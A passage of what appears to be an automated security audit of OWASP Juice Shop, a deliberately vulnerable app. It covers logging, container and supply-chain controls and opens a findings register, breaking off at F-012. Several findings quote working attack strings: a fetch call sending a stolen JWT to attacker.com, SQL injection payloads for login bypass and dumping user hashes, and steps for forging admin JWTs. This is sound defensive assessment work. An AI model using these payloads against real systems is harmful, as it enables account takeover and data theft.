- [7.11.7 Automated SCA scanning](#7117-automated-sca-scanning)
- [7.11.8 Automated dependency updates](#7118-automated-dependency-updates)

**Implemented controls:** Morgan `combined` HTTP access logging at `server.ts:338`; Distroless (`gcr.io/distroless/nodejs24-debian13`) container runtime image; GitHub Actions SBOM generation via `anchore/sbom-action` in `ci.yml`; Dependabot security alerts configured for the repository; lint CI job uses `--ignore-scripts` for its install step.

**Assessment:** Operational security posture is mixed. The Distroless runtime image and SBOM generation are meaningful positive controls. The critical gaps are: no authenticated-user identity in access logs (Morgan `combined` format captures IP and method only, not the JWT subject), no structured security-event log for sensitive operations, `.npmrc` setting `package-lock=false` which disables lockfile generation and allows transitive-dependency substitution on every CI install, no automated dependency update PRs (Renovate or Dependabot auto-PRs), and unpinned Dockerfile base images.

<a id="request-access-logging"></a>
#### 7.11.1 Request Access Logging

**Status:** 🟡 Partial - Morgan HTTP access logging is configured and captures request method, URL, status, and IP, but does not include the authenticated user's identity, making post-incident attribution of privileged actions impossible.

Access logging records incoming HTTP requests so that operational and security teams can reconstruct event sequences after an incident. `server.ts:338` registers `morgan('combined', ...)` which writes standard Apache combined-format log lines to the console.

**Security assessment**

Morgan `combined` format captures method, URL, status code, response size, User-Agent, and IP address. It does not record the JWT subject (`req.user.id` or `req.user.email`) from authenticated requests. When an admin account is compromised via SQL injection and used to delete users or export data, the log shows only the source IP - which may be spoofed via X-Forwarded-For on an incorrectly proxied deployment. Forensic reconstruction of _who_ performed a sensitive action requires cross-correlating session tokens across multiple log lines, which is not supported by the current log format.

**Relevant findings**

- 🟠 [F-027](#f-027) — Missing audit log for B2B order submissions: `routes/b2bOrder.ts` emits no structured event on success.
- 🟠 [F-024](#f-024) — Unlocked npm dependencies allow supply-chain substitution, creating events that would be undetectable in access logs alone.
- 🟠 [F-004](#f-004) — Unpinned Dockerfile base images are a related supply-chain gap; runtime logging cannot compensate for a compromised build artifact.

<a id="security-event-logging"></a>
#### 7.11.2 Security Event Logging

**Status:** 🔴 Missing - no structured security-event log is emitted for authentication events, privilege changes, sensitive data accesses, or security-relevant errors; the only operational record is the Morgan HTTP access log.

Security event logging records security-relevant operations - login successes and failures, privilege changes, sensitive data access, admin actions - in a structured format that can be forwarded to a SIEM or alert pipeline.

**Security assessment**

`routes/b2bOrder.ts` processes authenticated B2B order submissions and returns `{ cid, orderNo, paymentDue }` with no `logger.info` call, no database audit row, and no structured event. If a forged JWT is used to submit fraudulent orders, the only record is the Morgan access log line showing `POST /b2b/v2/orders 200`. No security event is emitted for login failures, role changes, 2FA enrollment, or admin actions across any route. Without structured event logging forwarded to an append-only sink, forensic reconstruction of an active attack or post-incident attribution is not possible from logs alone.

**Relevant findings**

- 🟠 [F-027](#f-027) — Missing audit log for B2B order submissions at `routes/b2bOrder.ts`.
- 🟠 [F-024](#f-024) — CI pipeline supply-chain events (postinstall execution during `npm install`) are undetectable without structured build-event logging.
- 🟠 [F-004](#f-004) — Unpinned Dockerfile base images create a build-provenance gap with no compensating runtime event.

<a id="production-error-handler"></a>
#### 7.11.3 Production Error Handler

**Status:** 🟠 Weak - an error handler is registered in `server.ts`, but it emits stack traces and internal error details in API error responses, facilitating reconnaissance by disclosing internal file paths, library versions, and query structures.

Express error handlers intercept unhandled exceptions and forward them to the response pipeline. A production error handler should suppress internal details and return a generic error message, logging the full detail server-side only.

**Security assessment**

The Express error handler in `server.ts` emits error details in the HTTP response body in development and production modes. The SQL injection at `routes/search.ts:23` (🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts:23`)) triggers Sequelize error responses that include the raw SQL query text, confirming the injection point to the attacker. Similarly, the YAML and XML parser errors at `routes/fileUpload.ts:87` reflect parsed content fragments back in the response body - this is the actual exfiltration channel for the XXE finding (🟠 [F-025](#f-025) — XXE via external entity resolution in XML upload parser (`fileUpload.ts:83`)). Suppressing internal error detail from HTTP responses is a prerequisite for reducing information leakage across multiple finding classes.

**Relevant findings**

- 🟠 [F-025](#f-025) — XXE exfiltration relies on the error-response body to return parsed entity content at `routes/fileUpload.ts:87`.
- 🔴 [F-011](#f-011) — SQL error responses confirm query structure to the attacker.

<a id="container-runtime-hardening"></a><a id="container-runtime-hardening-distroless"></a>
#### 7.11.4 Container Runtime Hardening

**Status:** 🟡 Partial - the Dockerfile uses a Distroless runtime image (`gcr.io/distroless/nodejs24-debian13`), eliminating most interactive-shell attack tools from the container, but the base image is unpinned (tag-only, no digest) and `npm install --unsafe-perm` is used during the build stage.

Distroless images contain only the application runtime and its direct dependencies, with no shell, package manager, or debugging tools. This limits the interactive footprint an attacker gains after achieving remote code execution inside the container.

**Security assessment**

`Dockerfile:1` references `FROM node:24` with a tag but no digest (`@sha256:...`). A tag-only reference can be silently substituted by a malicious image publisher between builds without invalidating the reference string. `Dockerfile:5` runs `npm install --omit=dev --unsafe-perm`, which grants postinstall scripts root-level privileges during the build stage - if any transitive dependency carries a malicious postinstall hook, it executes with full build-context access. The Distroless runtime stage is a genuine positive: it prevents an attacker who achieves RCE from using interactive tools like `curl`, `bash`, or `apt`. Container image signing (via `cosign` or `attest-build-provenance`) is absent (🔴 [F-005](#f-005) — Missing Container Image Signing (cosign / build provenance attestation)), so image provenance cannot be verified at deploy time.

**Relevant findings**

- 🟠 [F-004](#f-004) — Unpinned Dockerfile base image (`FROM node:24`) at `Dockerfile:1`.
- 🟠 [F-024](#f-024) — `npm install --unsafe-perm` at `Dockerfile:5` grants postinstall hooks root privileges during the build stage.
- 🟠 [F-027](#f-027) — No container HEALTHCHECK delays orchestrator detection of a degraded or compromised container.

<a id="lockfile-integrity"></a>
#### 7.11.5 Lockfile Integrity

**Status:** 🔴 Missing - `.npmrc` sets `package-lock=false`, disabling lockfile generation, so every `npm install` in CI resolves transitive dependencies fresh from the registry without a pinned dependency graph.

A lockfile (`package-lock.json` or `yarn.lock`) pins the exact resolved versions of all direct and transitive dependencies. Without a lockfile, the dependency graph is resolved from scratch on each install, creating a window for supply-chain substitution.

**Security assessment**

`.npmrc:1` sets `package-lock=false`, which prevents `package-lock.json` from being generated or consulted. CI jobs at lines 85, 65, 125, and 211 of `ci.yml` all run bare `npm install`, resolving transitive dependencies live from the npm registry on each build. A supply-chain attacker who publishes a malicious version of any transitive dependency within a compatible semver range would have that package installed and its `postinstall` script executed with CI runner privileges, with access to all mounted workflow secrets (`CYPRESS_RECORD_KEY`, `GITHUB_TOKEN`, etc.). The `lint` job at `ci.yml:37` uses `--ignore-scripts` as the only mitigation, which does not apply to the build, test, or API-test jobs.

**Relevant findings**

- 🟠 [F-024](#f-024) — Unlocked npm dependencies at `.npmrc:1` enable postinstall code execution across all CI install steps.

<a id="dependency-vulnerability-scanning"></a>
#### 7.11.6 Dependency Vulnerability Scanning

**Status:** 🟡 Partial - Dependabot security alerts are configured and SBOM generation runs in CI, but no automated dependency-update PRs are opened, no `npm audit` gate blocks CI on known CVEs, and the SCA scan runs only at build time without a required-check gate.

Dependency vulnerability scanning detects known CVEs in direct and transitive dependencies and alerts or blocks deployment when vulnerable packages are in use.

**Security assessment**

Dependabot is configured for the repository, generating security alerts in the GitHub Security tab. `anchore/sbom-action` generates a CycloneDX SBOM during the Docker build job, providing a point-in-time inventory. The gaps are: no `npm audit --audit-level=high` step in any CI job that would block a merge when known Critical or High CVEs are present, and no Renovate or Dependabot auto-PR configured to keep dependencies current. The intentionally-vulnerable nature of the project (Juice Shop) means some known-CVE dependencies are deliberate, but a gate that enforces explicit suppression of each known CVE would at minimum make the risk acceptance visible.

**Relevant findings**

- 🟠 [F-024](#f-024) — Unlocked dependencies amplify the CVE exposure: a vulnerable transitive dependency version may be silently resolved to a newer (or older) CVE-carrying version on each install.

<a id="automated-sca-scanning"></a>
#### 7.11.7 Automated SCA scanning

**Status:** 🟢 Adequate - `anchore/sbom-action` generates a CycloneDX SBOM as part of the Docker build CI job, providing a continuous software bill of materials for each container image produced by the pipeline.

`anchore/sbom-action` is wired into the `docker-image` job in `.github/workflows/ci.yml`. On each build it produces a CycloneDX SBOM that inventories the npm packages included in the container image layer. The SBOM is uploaded as a GitHub Actions artifact, making it available for downstream analysis.

**Security assessment**

The SBOM generation step is correctly positioned and runs automatically on each Docker build. It provides the dependency inventory needed for vulnerability correlation and export control. The SBOM scope is the container image layer - it does not cover packages installed in the CI runner environment during the test jobs, which run from `npm install` without a lockfile (🟠 [F-024](#f-024) — Unlocked npm Dependencies Enable Postinstall Code Execution (.npmrc:1)) and therefore have a potentially different dependency graph than the image layer. Integrating SBOM output with a vulnerability database query (e.g. `grype` or `trivy`) as a required CI check would close this gap.

**Relevant findings**

- No dedicated finding is routed to this control. 🟠 [F-024](#f-024) (unlocked CI installs) represents the boundary of what the container-image SBOM does not cover.

<a id="automated-dependency-updates"></a>
#### 7.11.8 Automated dependency updates

**Status:** 🔴 Missing - no Renovate or Dependabot auto-PR configuration is present; dependency versions are updated only manually, leaving the project on outdated packages for extended periods without an automated prompt.

Automated dependency updates open pull requests when new versions of direct dependencies are available, keeping the dependency graph current with security patches without requiring manual monitoring of each package.

**Security assessment**

Dependabot security alerts are enabled (notifying on known CVEs) but Dependabot auto-PRs for version updates are not configured. The result is that non-CVE dependency drift (new feature releases, compatibility updates) accumulates until a developer manually reviews and updates `package.json`. Several dependencies in the current version tree are far behind their latest release versions. For a project that intentionally includes vulnerable dependencies (Juice Shop), automated update PRs would also provide a forcing function for documenting which outdated versions are intentionally retained for challenge purposes versus which are simply stale.

**Relevant findings**

- 🟠 [F-024](#f-024) — Unlocked dependencies compound the update gap: without a lockfile, the "current" version installed in CI may differ from the `package.json` range even without an explicit update PR.

### 7.12 Real-time and Not Applicable Controls

<!-- §7.12 LOCKED — mechanically derived from absence of real-time findings. Renderer must not rewrite the line below. -->
_Not applicable - no real-time / WebSocket findings routed to this category, and no AI/LLM, GraphQL, or gRPC surfaces detected by the recon scan. Controls catalogued elsewhere (container hardening, dependency determinism) are covered in their primary [§7](#7-security-architecture) sections._

### 7.13 Defense-in-Depth Summary

**Verdict:** -

The application has a small set of genuinely positive controls: the Distroless runtime container image eliminates interactive-shell tools from the attack surface after RCE; `RS256` is the correct algorithm choice for JWT signing even though the key is stored incorrectly; Helmet provides `noSniff` and `frameguard` headers; SBOM generation runs automatically on Docker builds; and TOTP-based MFA is implemented and rate-limited for the enrollment and verification flows.

The controls that would restore layered defense - and whose absence makes each individual finding more severe - are: moving the RSA private key to a runtime-injected environment variable (which would immediately make JWT forgery non-trivial even if the repo is cloned); replacing raw `sequelize.query()` with ORM parameterised calls at the two affected routes (which would close the authentication bypass and data exfiltration surface simultaneously); introducing a Backend-for-Frontend session pattern that stores the JWT in an `HttpOnly` cookie (which would make every existing XSS vector unable to exfiltrate the session token); and removing `bypassSecurityTrustHtml()` from the three Angular call sites (which would retire three XSS vectors without any new infrastructure). These four repairs address the majority of Critical findings with low-to-medium implementation effort.

<!-- enriched:standard -->

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 14 · 🟠 High: 32 · 🟡 Medium: 7 · 🟢 Low: 1 · **Total findings: 54**
**STRIDE Coverage:** Spoofing: 6 · Tampering: 10 · Repudiation: 4 · Information Disclosure: 19 · Denial of Service: 6 · Elevation of Privilege: 9

**Findings index:**<br/>🔴 [F-001](#f-001) — JWT Algorithm Confusion Missing algorithms Allowlist (`lib/insecurity.ts`)<br/>🔴 [F-002](#f-002) — Systemic Broken Object-Level Authorization Missing Ownership Check Acro…<br/>🔴 [F-003](#f-003) — JWT Session Token in localStorage XSS-Accessible Storage<br/>🟠 [F-004](#f-004) — Unpinned Container Base Images and Missing SBOM Generation (Dockerfile)<br/>🟡 [F-005](#f-005) — Missing Container Image Signing (cosign / build provenance attestation)<br/>🟡 [F-006](#f-006) — Dockerfile Package Install Missing --ignore-scripts Flag (Dockerfile)<br/>🟢 [F-007](#f-007) — Missing Dockerfile HEALTHCHECK Instruction<br/>🔴 [F-008](#f-008) — SQL Injection Authentication Bypass (`routes/login.ts:34`)<br/>🔴 [F-009](#f-009) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)<br/>🔴 [F-010](#f-010) — Derived Predictable Password from Email Claim (oauth.component.ts:30)<br/>🔴 [F-011](#f-011) — SQL Injection via UNION in Product Search (`routes/search.ts:23`)<br/>🔴 [F-012](#f-012) — Zip-slip arbitrary file write via raw `entry.path` in ZIP extraction<br/>🔴 [F-013](#f-013) — Reflected DOM XSS via Search Query Parameter (search-result.component.t…<br/>🔴 [F-014](#f-014) — Hardcoded RSA Private Key (`lib/insecurity.ts:23`)<br/>🔴 [F-015](#f-015) — MD5 Password Hashing Without Salt (`lib/insecurity.ts:43`)<br/>🔴 [F-016](#f-016) — Sandbox Escape via Unsafe Expression Evaluation (`routes/b2bOrder.ts:23`)<br/>🔴 [F-017](#f-017) — Mass Assignment Allows Self-Promotion to Admin Role (server.ts:500)<br/>🔴 [F-018](#f-018) — Missing authentication on POST `/file-upload` allows unauthenticated file…<br/>🟠 [F-019](#f-019) — JWT decode used without signature verification `lib/insecurity.ts:58`<br/>🟠 [F-020](#f-020) — OAuth Implicit Flow Token in URL Fragment (login.component.ts:134)<br/>🟠 [F-021](#f-021) — Server-Side Template Injection via eval in User Profile (userProfile.ts…<br/>🟠 [F-022](#f-022) — Missing Authorization on Products PUT Endpoint (server.ts:369)<br/>🟠 [F-023](#f-023) — Server-Side Request Forgery via Profile Image URL (profileImageUrlUploa…<br/>🟠 [F-024](#f-024) — Unlocked npm Dependencies Enable Postinstall Code Execution (.npmrc:1)<br/>🟠 [F-025](#f-025) — XXE via external entity resolution in XML upload parser (fileUpload.ts:…<br/>🟠 [F-026](#f-026) — Stored XSS via Product Description Trust Bypass (search-result.componen…<br/>🟠 [F-027](#f-027) — Missing Audit Log for B2B Order Submissions (`routes/b2bOrder.ts`)<br/>🟠 [F-028](#f-028) — Missing User-Identity Audit Trail in Access Logs (server.ts:338)<br/>🟠 [F-029](#f-029) — Missing Security Audit Log for Data Mutations<br/>🟠 [F-030](#f-030) — No audit logging of file upload events or file access on /ftp/ (fileSer…<br/>🟠 [F-031](#f-031) — Unauthenticated Access Log Directory Listing (server.ts:281)<br/>🟠 [F-032](#f-032) — Dockerfile no --unsafe-perm install flag<br/>🟠 [F-033](#f-033) — GitHub Actions workflow-level permissions block<br/>🟠 [F-034](#f-034) — Third-party GitHub Actions pinned to commit SHA<br/>🟠 [F-035](#f-035) — Org-Admin Token Exposed in pull_request_target Context (pr-compliance.y…<br/>🟠 [F-036](#f-036) — Plaintext Payment Card Storage (`models/card.ts:39`)<br/>🟠 [F-037](#f-037) — Null-byte injection bypasses extension allowlist to serve restricted FT…<br/>🟠 [F-038](#f-038) — Publicly exposed /ftp/ directory listing reveals sensitive internal fil…<br/>🟠 [F-039](#f-039) — Unauthenticated WebSocket broadcasts all challenge-solved notifications<br/>🟠 [F-040](#f-040) — Missing Rate Limit on CPU-Bound Sandbox Endpoint (server.ts:645)<br/>🟠 [F-041](#f-041) — Missing Rate Limit on Login Endpoint (server.ts)<br/>🟠 [F-042](#f-042) — XML Entity Expansion DoS in File Upload (`routes/fileUpload.ts:83`)<br/>🟠 [F-043](#f-043) — YAML bomb and XML billion-laughs cause CPU/memory exhaustion on upload…<br/>🟠 [F-044](#f-044) — No connection rate limit on Socket\.IO upgrade endpoint<br/>🟠 [F-045](#f-045) — Unauthenticated Admin Configuration Endpoints (server.ts:604)<br/>🟠 [F-046](#f-046) — Password Change Bypass Without Current Password (routes/changePassword.…<br/>🟠 [F-047](#f-047) — Sensitive REST route registered without authentication middleware serve…<br/>🟠 [F-048](#f-048) — Client-Side-Only Admin Route Guard (`frontend/src/app/app.guard.ts:52`)<br/>🟠 [F-049](#f-049) — Unauthenticated client events trigger server-side challenge solution st…<br/>🟡 [F-050](#f-050) — Dockerfile USER directive (non-root)<br/>🟡 [F-051](#f-051) — GITHUB_TOKEN scope minimization<br/>🟡 [F-052](#f-052) — Stored XSS via lastLoginIp JWT Claim Trust Bypass<br/>🟡 [F-053](#f-053) — Unbounded Raw SQL Query Event Loop Block (`routes/search.ts:23`)<br/>🟡 [F-054](#f-054) — Open Redirect Allowlist Bypass via Substring Match (`lib/insecurity.ts:1`…

<a id="th-01"></a><a id="th-02"></a><a id="th-03"></a><a id="th-04"></a><a id="th-05"></a><a id="th-06"></a><a id="th-10"></a><a id="th-11"></a><a id="th-12"></a><a id="th-13"></a><a id="th-14"></a><a id="th-16"></a><a id="th-17"></a>

### 🔴 Critical (14)

<a id="t-009"></a><a id="f-009"></a>
#### F-009 · Hardcoded Cryptographic Key

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts`:23

**Issue:** The full PKCS#1 RSA-1024 private key is hardcoded as a string literal. Any developer with repository read access - or any attacker who gains access to the source tarball - can extract this key and call `jwt.sign({ data: { id: 1, role: 'admin', email: 'admin@juice-sh.op' } }, privateKey, { algorithm: 'RS256' })` to issue an arbitrary admin JWT. The key cannot be rotated without a code change and redeployment. Since the same `privateKey` is also used for HMAC signing of deluxe tokens (`lib/insecurity.ts:152`), the impact spans both authentication and business-logic bypass. Possession of this key enables permanent, undetectable JWT forgery for any user ID and role, including admin, until the key is rotated and the application redeployed.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - `lib/insecurity.ts:23` contains a complete `[PEM PRIVATE KEY — REDACTED]` PKCS#1 block as an inline TypeScript string literal.

**Fix:** Move the cryptographic key out of source control into a managed secret store and rotate it → ❸ [M-007](#m-007) — Manual review: verify Hardcoded RSA Private Key at `lib/insecurity.ts:23`

**Classification:** Cryptographic Failures · [CWE-321](https://cwe.mitre.org/data/definitions/321.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-014"></a><a id="f-014"></a>
#### F-014 · Hardcoded Credentials

**Severity:** 🔴 Critical - secret committed to the public source repo - extractable on clone, no prior access needed  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts`:23

**Issue:** The RSA private key used to sign all application JWTs is hardcoded verbatim in `lib/insecurity.ts` at line 23 as a multi-line PEM string. Any actor with read access to the source repository - including third-party contributors, CI/CD workers, code-review tools, and supply-chain components - obtains the signing key. With this key, an attacker can mint valid `RS256` tokens for any user identity or privilege level. Because the B2B endpoint and all REST endpoints share the same JWT key pair, a single key leak compromises the entire authentication fabric. Any actor who reads the source code can forge valid `RS256` tokens for admin or any user account, fully bypassing authentication on all protected endpoints.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - The full RSA-1024 private key PEM is assigned to the `privateKey` constant at module load time with no environment-variable indirection.

```typescript
// lib/insecurity.ts:23
import * as z85 from 'z85'

export const publicKey = fs ? fs.readFileSync('encryptionkeys/jwt.pub', 'utf8') : 'placeholder-public-key'
const privateKey = '[PEM PRIVATE KEY — REDACTED]

interface ResponseWithUser {
  status?: string
```

**Fix:** Move the credential out of source control into a secret store and rotate it → ❸ [M-012](#m-012) — Manual review: verify Hardcoded RSA Private Key at `lib/insecurity.ts:23`

**Classification:** Cryptographic Failures · [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-001"></a><a id="f-001"></a>
#### F-001 · Improper Verification of Cryptographic Signature

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `lib/insecurity.ts`:54

**Issue:** The express-jwt middleware is configured as `expressJwt({ secret: publicKey })` without specifying an `algorithms:` allowlist. This means the middleware will accept JWTs signed with any algorithm, including `alg:none` (unsigned, zero-credential) and `HS256` using the RSA public key as the HMAC secret. An anonymous internet attacker can base64-decode the public key from any valid JWT, craft a new payload with `role: admin` or another user's `email`, sign it using `HS256` with the decoded public key as the secret, and send it to `POST /b2b/v2/orders`. The middleware's verification passes, granting arbitrary identity impersonation across all endpoints protected by `security.isAuthorized()`. Attacker forges a JWT for any user or admin role and gains full access to the B2B order endpoint and all other `isAuthorized()`-protected routes.

**Root cause:** Authentication can be circumvented or forged because credentials, signing keys, or password hashes are weak, missing, or exposed.

**Evidence:** ✓ verified - expressJwt is called with only `secret` and no `algorithms` parameter, leaving the algorithm negotiated by the token header rather than enforced by the server.

```typescript
// lib/insecurity.ts:54
  return str
}

export const isAuthorized = () => expressJwt(({ secret: publicKey }) as any)
export const denyAll = () => expressJwt({ secret: '' + Math.random() } as any)
export const authorize = (user = {}) => jwt.sign(user, privateKey, { expiresIn: '6h', algorithm: 'RS256' })
export const verify = (token: string) => token ? (jws.verify as ((token: string, secret: string) => boolean))(token, publicKey) : false
```

**Fix:** Pin the signature algorithm explicitly and reject `alg:none` and unknown algorithms → ❸ [M-004](#m-004) — Manual review: verify JWT Algorithm Confusion Missing algorithms Allowlist at `lib/insecurity.ts:54`

**Classification:** Broken Authentication · [CWE-347](https://cwe.mitre.org/data/definitions/347.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Insecure Direct Object Reference (IDOR)

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `routes/address.ts`:11

**Issue:** Server-side authorization MUST derive the resource owner from the authenticated session (`req.user` / `req.session` / `req.auth`), never from attacker-controlled request data. Trusting `req.body.UserId` etc. enables horizontal privilege escalation across all authenticated tenants.

**Root cause:** Authorisation checks are absent or bypassable, allowing horizontal and vertical privilege jumps from a self-registered or low-rights account. Includes mass-assignment of privileged attributes.

**Evidence:** ✓ verified - An object-identity parameter is trusted from the request without server-side ownership check.

```typescript
// routes/address.ts:11

export function getAddress () {
  return async (req: Request, res: Response) => {
    const addresses = await AddressModel.findAll({ where: { UserId: req.body.UserId } })
    res.status(200).json({ status: 'success', data: addresses })
  }
}
```

**Fix:** Tie every object lookup to the requesting user's identity and reject cross-tenant references → ❶ [M-052](#m-052) — Replace req.body.UserId/userId/ownerId with req.user.id (or equivalent session-derived identity) in every WHERE/filter clause.

**Classification:** Broken Access Control · [CWE-639](https://cwe.mitre.org/data/definitions/639.html) · [OWASP A01:2021](https://owasp.org/Top10/A01_2021/)

<a id="t-003"></a><a id="f-003"></a>
#### F-003 · Insecure Storage of Sensitive Information

**Severity:** 🔴 Critical - elevated as an attack-chain keystone (individual baseline: High)  ·  **Component:** [C-01](#c-01) - Angular Frontend SPA  ·  **Location:** `frontend/src/app/Services/request.interceptor.ts`:13

**Issue:** The `RequestInterceptor` reads the JWT from `localStorage.getItem('token')` at line 13-16 and attaches it as an `Authorization: Bearer` header to every outbound HTTP request. `localStorage` is synchronously accessible to any JavaScript executing in the same browser origin, including injected scripts. The reflected and stored XSS vectors identified in this component (frontend-spa-003, frontend-spa-004) enable direct exfiltration: `fetch('https://attacker.com/?t=' + localStorage.getItem('token'))`. Unlike `HttpOnly` cookies, `localStorage` provides no browser-enforced isolation. Any XSS execution in the application origin results in full JWT exfiltration, granting the attacker an authenticated session with all privileges of the victim account.

**Root cause:** Attacker-controlled content is rendered in the victim's browser without sanitisation; combined with session tokens held in JavaScript-readable storage, any payload yields immediate account takeover.

**Evidence:** ✓ verified - `localStorage.getItem('token')` at line 13 is the sole token retrieval mechanism; the same key is also stored by the OAuth flow at `oauth.component.ts:51`, confirming no `HttpOnly` cookie alternative exists.

**Fix:** ❸ [M-005](#m-005) — Manual review: verify JWT Session Token in localStorage XSS-Accessible Storage at `frontend/src/app/Services/request.interceptor.ts:13`

**Classification:** Insecure Client-Side Storage · [CWE-922](https://cwe.mitre.org/data/definitions/922.html) · [OWASP A02:2021](https://owasp.org/Top10/A02_2021/)

<a id="t-008"></a><a id="f-008"></a>
#### F-008 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `routes/login.ts`:34

**Issue:** `req.body.email` is interpolated directly into a raw Sequelize SQL string at `routes/login.ts:34`: `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '...'`. An anonymous attacker sends the email value `' OR '1'='1' --` to short-circuit the WHERE clause, causing Sequelize to return the first user row - which is the seeded admin account. No authentication check stands between the malicious input and the returned token. The attack is unauthenticated, requires no prior knowledge of any credential, and grants full admin-level JWT within a single request. Complete authentication bypass yields an admin-signed JWT, granting full administrative access to all `/rest/admin/*` and `/api/Users` endpoints.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterisation or schema validation.

**Evidence:** ✓ verified - `routes/login.ts:34` passes `req.body.email` and the `MD5` of `req.body.password` via string template literal directly into `models.sequelize.query()` without parameterisation.

```typescript
// routes/login.ts:34

  return (req: Request, res: Response, next: NextFunction) => {
    verifyPreLoginChallenges(req) // vuln-code-snippet hide-line
    models.sequelize.query(`SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`, { model: UserModel, plain: tr
      .then((authenticatedUser) => { // vuln-code-snippet neutral-line loginAdminChallenge loginBenderChallenge loginJimChallenge
        const user = utils.queryResultToJson(authenticatedUser)
        if (user.data?.id && user.data.totpSecret !== '') {
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❸ [M-006](#m-006) — Manual review: verify SQL Injection Authentication Bypass at `routes/login.ts:34`

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-010"></a><a id="f-010"></a>
#### F-010 · Derived Predictable Password Email Claim

**Severity:** 🔴 Critical  ·  **Component:** [C-01](#c-01) - Angular Frontend SPA  ·  **Location:** `frontend/src/app/oauth/oauth.component.ts`:30

**Issue:** When completing the OAuth flow, `OAuthComponent.login()` at line 46 submits `{ email: profile.email, password: btoa(profile.email.split('').reverse().join('')) }` as the Juice Shop login credential. The password is the base64-encoding of the reversed email address - a deterministic, publicly derivable value. Any attacker who knows a target user's email address can compute this password without OAuth interaction and authenticate directly against the `POST /rest/user/login` endpoint with the derived credential, bypassing OAuth entirely. This is a parallel authentication bypass: the OAuth flow protects the Google side; the Juice Shop backend accepts a password that is algorithmically derived from publicly known data. Any attacker who knows a victim's email can authenticate as that user on the Juice Shop backend without OAuth interaction, obtaining a valid JWT session.

**Evidence:** ✓ verified - `btoa(profile.email.split('').reverse().join(''))` at line 30 and line 46 produces the same value; the pattern is identical and deterministic from the email claim alone.

```typescript
// frontend/src/app/oauth/oauth.component.ts:30
  ngOnInit (): void {
    this.userService.oauthLogin(this.parseRedirectUrlParams().access_token).subscribe({
      next: (profile: any) => {
        const password = btoa(profile.email.split('').reverse().join(''))
        this.userService.save({ email: profile.email, password, passwordRepeat: password }).subscribe({
          next: () => {
            this.login(profile)
```

**Fix:** ❸ [M-008](#m-008) — Manual review: verify Derived Predictable Password from Email Claim at `frontend/src/app/oauth/oauth.component.ts:30`

**Classification:** OAuth / OIDC Misconfiguration · [CWE-522](https://cwe.mitre.org/data/definitions/522.html) · [OWASP A07:2021](https://owasp.org/Top10/A07_2021/)

<a id="t-011"></a><a id="f-011"></a>
#### F-011 · SQL Injection

**Severity:** 🔴 Critical  ·  **Component:** [C-02](#c-02) - Express REST API Backend  ·  **Location:** `routes/search.ts`:23

**Issue:** `req.query.q` is interpolated into a LIKE query after a length truncation at 200 characters. An anonymous attacker sends `')) UNION SELECT id, email, password, '4', '5', '6', '7', '8', '9' FROM Users--` to the GET `/rest/products/search?q=` endpoint. The response JSON includes all user rows with email addresses and `MD5`-hashed passwords. A second UNION-based payload against `sqlite_master` leaks the full DB schema. Full Users table exfiltration including email addresses and `MD5`-hashed passwords, enabling offline password cracking and account takeover.

**Root cause:** User input flows into a server-side interpreter (SQL, NoSQL, XML, YAML, LDAP, OS shell) without parameterisation or schema validation.

**Evidence:** ✓ verified - `routes/search.ts:23` interpolates `criteria` (derived from `req.query.q`) directly into `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL)`.

```typescript
// routes/search.ts:23
  return (req: Request, res: Response, next: NextFunction) => {
    let criteria: any = req.query.q === 'undefined' ? '' : req.query.q ?? ''
    criteria = (criteria.length <= 200) ? criteria : criteria.substring(0, 200)
    models.sequelize.query(`SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`) // vuln-code-snippet vuln-line unionSql
      .then(([products]: any) => {
        const dataString = JSON.stringify(products)
        if (challengeUtils.notSolved(challenges.unionSqlInjectionChallenge)) { // vuln-code-snippet hide-start
```

**Fix:** Switch all SQL execution to parameterised queries or ORM-bound parameters → ❸ [M-009](#m-009) — Manual review: verify SQL Injection via UNION in Product Search at `routes/search.ts:23`

**Classification:** Injection · [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [OWASP A03:2021](https://owasp.org/Top10/A03_2021/)

<a id="t-012"></a><a id="f-012"></a>
#### F-012 · Path Traversal

**Severity:** 🔴 Critical  ·  **Component:** [C-05](#c-05) - File Upload Service  ·  **Location:** `routes/fileUpload.ts`:45

